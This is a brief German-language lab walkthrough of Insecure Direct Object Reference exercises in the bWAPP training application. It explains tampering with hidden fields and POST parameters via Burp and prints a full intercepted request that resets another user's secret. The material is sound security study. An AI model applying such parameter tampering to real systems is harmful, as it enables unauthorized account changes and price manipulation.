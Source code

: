 ### // A4 - INSECURE DIRECT OBJECT REFERENCES //
---
##### Insecure DOR (Change Secret)
Mit burp können versteckte elemente angezeigt werden oder der POST parameter wird abgefangen.
---
##### Insecure DOR (Reset Secret)
Das "Login" und "Secret" feld kann angepasst werden:
~~~
POST /bWAPP/xxe-2.php HTTP/1.1
Host: bepp:8088
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:39.0) Gecko/20100101 Firefox/39.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=UTF-8
Referer: http://bepp:8088/bWAPP/insecure_direct_object_ref_3.php
Content-Length: 59
Cookie: PHPSESSID=77aa634b546d1c78d5afc16aae328172; security_level=0
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

<reset><login>bee</login><secret>Any bugs?</secret></reset>
~~~
---
##### Insecure DOR (Order Tickets)
bWAPP/insecure_direct_object_ref_2.php <br>
Mit burp können vesteckte ticketpreise angezeigt werde oder über ein Proxy werden die POST Paramter während der übetragung angepasst.
